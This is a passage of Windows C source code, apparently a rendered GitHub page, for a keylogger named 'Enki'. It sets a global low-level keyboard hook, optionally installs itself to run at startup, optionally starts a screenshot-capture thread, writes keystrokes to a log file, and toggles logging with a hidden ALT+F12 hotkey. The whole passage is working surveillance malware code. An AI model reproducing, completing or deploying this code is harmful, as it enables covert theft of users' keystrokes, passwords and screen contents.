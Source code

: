 		Fatal("Failed to create keylog file");
	}

#ifdef STARTUP
	CHAR ExeFilePath[MAX_PATH];

	GetModuleFileName(NULL, ExeFilePath, sizeof(ExeFilePath));

	InstallStartup(ExeFilePath);
#endif

	// allocate heap buffer
	ghLogHeap = HeapCreate(0, BUF_SIZ + 1, 0);
	if (ghLogHeap == NULL) {
		Fatal("Heap create");
	}

	lpLogBuf = HeapAlloc(ghLogHeap, HEAP_ZERO_MEMORY, BUF_SIZ + 1);
	if (lpLogBuf == NULL) {
		Fatal("Heap alloc");
	}
	dwLogBufSize = BUF_SIZ + 1;

	// hotkey for logging status
	RegisterHotKey(NULL, HOTKEY_ID, MOD_ALT, VK_F12);

	// set initial timer
	dwTime = GetTickCount();

#ifdef SCREENSHOTS
	// screenshot thread
	HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)CaptureScreen, NULL, 0, NULL);
	if (hThread == NULL) {
		Fatal("Capture screen thread");
	}
#endif

	// set keyboard hooking subroutine
	ghHook = SetWindowsHookEx(WH_KEYBOARD_LL, LowLevelKeyboardProc, GetModuleHandle(NULL), 0);
	if (ghHook == NULL) {
		CloseHandle(ghFile);
		Fatal("Failed to set keyboard hook");
	}

	MSG msg;
	while (GetMessage(&msg, 0, 0, 0) != 0) {
		// if hotkey is pressed
		if (msg.message == WM_HOTKEY) {
			// if ALT+F12 pressed
			if (HIWORD(msg.lParam) == VK_F12 && LOWORD(msg.lParam) == MOD_ALT) {
				// set logging status
				nLogFlag *= -1;
				if (nLogFlag == 1) {
#ifdef DEBUG
					MessageBox(NULL, "Logging enabled", "Enki - HotKey", MB_OK | MB_SYSTEMMODAL | MB_ICONINFORMATION);
				} else {
					MessageBox(NULL, "Logging disabled", "Enki - HotKey", MB_OK | MB_SYSTEMMODAL | MB_ICONINFORMATION);
#endif
				}
			}
		}

		TranslateMessage(&msg);
		DispatchMessage(&msg);	
	}

	UnhookWindowsHookEx(ghHook);
	CloseHandle(ghFile);
	UnregisterHotKey(NULL, HOTKEY_ID);